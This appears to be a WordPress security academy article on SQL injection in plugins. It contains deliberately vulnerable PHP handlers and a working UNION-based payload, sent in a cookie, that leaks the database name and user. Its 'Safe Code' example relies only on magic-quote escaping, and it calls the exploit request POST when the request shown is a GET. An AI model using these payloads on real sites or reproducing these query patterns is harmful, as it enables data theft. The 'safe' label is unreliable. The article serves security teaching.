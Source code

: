 ```yaml
---
title: SQL Injection (SQLi)
contributors:
    - rafiem
    - bk273
---
```




## Introduction

This article covers cases of possible SQLi on WordPress. This includes improper usage of functions and user input handling inside of the plugin/theme which can be used to inject a malicious query into the SQL execution to leak sensitive data.

<LinkCard
  title="Learn how to secure your code against SQL Injection"
  href="/academy/wordpress/securing-code/sql-injection/"
/>


## Useful Functions

Several functions could be useful to identify a possible SQLi vulnerability:

- [`$wpdb->query`](https://developer.wordpress.org/reference/classes/wpdb/query/)
- [`$wpdb->get_var`](https://developer.wordpress.org/reference/classes/wpdb/get_var/)
- [`$wpdb->get_row`](https://developer.wordpress.org/reference/classes/wpdb/get_row/)
- [`$wpdb->get_col`](https://developer.wordpress.org/reference/classes/wpdb/get_col/)
- [`$wpdb->get_results`](https://developer.wordpress.org/reference/classes/wpdb/get_results/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_load_questions", "load_questions");

function load_questions(){
    global $wpdb;

    $quiz_id = $_GET["quiz_id"];

    if ( isset($_COOKIE[ 'question_ids_'.$quiz_id ]) ) {
        $question_sql = sanitize_text_field( wp_unslash( $_COOKIE[ 'question_ids_'.$quiz_id ] ) );
    }else {
        $question_ids = array("1","2","3");
        $question_sql = implode( ',', $question_ids );
    }
    
    $order_by_sql = 'ORDER BY FIELD(question_id,'.$question_sql.')';

    $query     = $wpdb->prepare( "SELECT * FROM {$wpdb->prefix}custom_questions WHERE question_id IN (%1s)", $question_sql);
    $questions = $wpdb->get_results( stripslashes( $query ) );

    wp_send_json($questions);
}
```

The vulnerable variable, in this case, is the `$question_sql` variable where the value is passed from `$_COOKIE[ 'question_ids_'.$quiz_id ]` value without proper sanitization or escaping. The `sanitize_text_field` function is not enough to prevent SQL Injection since the `$question_sql` variable is constructed inside an ORDER BY clause without proper escaping.

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed action and parameter to trigger the SQL Injection (let's say that the `{$wpdb->prefix}custom_questions` table has 5 columns):

```http
GET /wp-admin/admin-ajax.php?action=load_questions&quiz_id=1 HTTP/1.1
Host: localhost
Cookie: question_ids_1=1%29%20and%20false%20union%20select%20database%28%29%2C%271337%27%2C%271337%27%2Cuser%28%29%2C%271337%27%20--%20-%20
Connection: close

```

Below are some of the findings related to SQLi:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Critical SQL Injection Found in Porto Theme's Plugin](https://patchstack.com/articles/critical-sql-injection-found-in-porto-themes-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Unauthenticated SQL Injection in Quiz And Survey Master \<= 8.1.4](https://patchstack.com/articles/critical-unauthenticated-sql-injection-in-quiz-and-survey-master/)
- [Multiple Vulnerabilities Fixed In WP Statistics Plugin Version \<= 13.2.10](https://patchstack.com/articles/multiple-authenticated-sql-injection-fixed-in-wp-statistics-plugin-version-13-2-10/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)


## Magic Quotes

Magic Quotes is/was a feature in PHP designed to automatically escape certain characters in user input to prevent SQL injection (SQLi) attacks. Specifically, it would escape single quotes ('), double quotes ("), backslashes (\), and NULL characters by automatically adding backslashes before them. This was done to protect against common vulnerabilities like SQL injection, where an attacker might try to insert malicious SQL code into a query.

It is not the perfect solution. It is mostly inconsistent, meaning that it only escapes certain characters. Depending on how the code works it might still allow for SQL injections or corrupted data in the database.

It was optional for PHP but it is disabled. Why we are mentioning it here? It still lives in WordPress via [`wp_magic_quotes()`
](https://developer.wordpress.org/reference/functions/wp_magic_quotes/).

As mentioned on that page, it is a private function so developers don't need to implement it. If any code is executed inside WordPress hooks, inputs (`$_GET`, `$_POST`, `$_COOKIE`, and `$_SERVER`) will go through the [`add_magic_quotes()`](https://developer.wordpress.org/reference/functions/add_magic_quotes/)

```php
function add_magic_quotes( $input_array ) {
	foreach ( (array) $input_array as $k => $v ) {
		if ( is_array( $v ) ) {
			$input_array[ $k ] = add_magic_quotes( $v );
		} elseif ( is_string( $v ) ) {
			$input_array[ $k ] = addslashes( $v );
		}
	}

	return $input_array;
}
```

and gets sanitized due to [`addslashes()`](https://www.php.net/manual/en/function.addslashes.php).

So even a super simple vulnerable-looking code like `select * from users where '$injection_here';` will be escaped and turn into something like `SELECT * FROM users where '\'testpayload';` inside a WordPress hook and you will not be able to exploit it in almost all scenarios.

Safe Code:

```php
add_action('init', function() {
    $input = $_POST['input']; 
    global $wpdb;
    $query = "SELECT * FROM users WHERE name = '$input'";
    $result = $wpdb->get_results($query);
    // Display the result
    if ($result) {
        foreach ($result as $row) {
            echo "User: " . esc_html($row->name);
        }
    }
});
```

Vulnerable Code:

```php
add_action('init', function() {
    $input = wp_unslash($_POST['input']); 
    global $wpdb;
    $query = "SELECT * FROM users WHERE name = '$input'";
    $result = $wpdb->get_results($query);
    // Display the result
    if ($result) {
        foreach ($result as $row) {
            echo "User: " . esc_html($row->name);
        }
    }
});
```

If the input is unslashed using [`wp_unslash()`](https://developer.wordpress.org/reference/functions/wp_unslash/) it will still be exploitable.
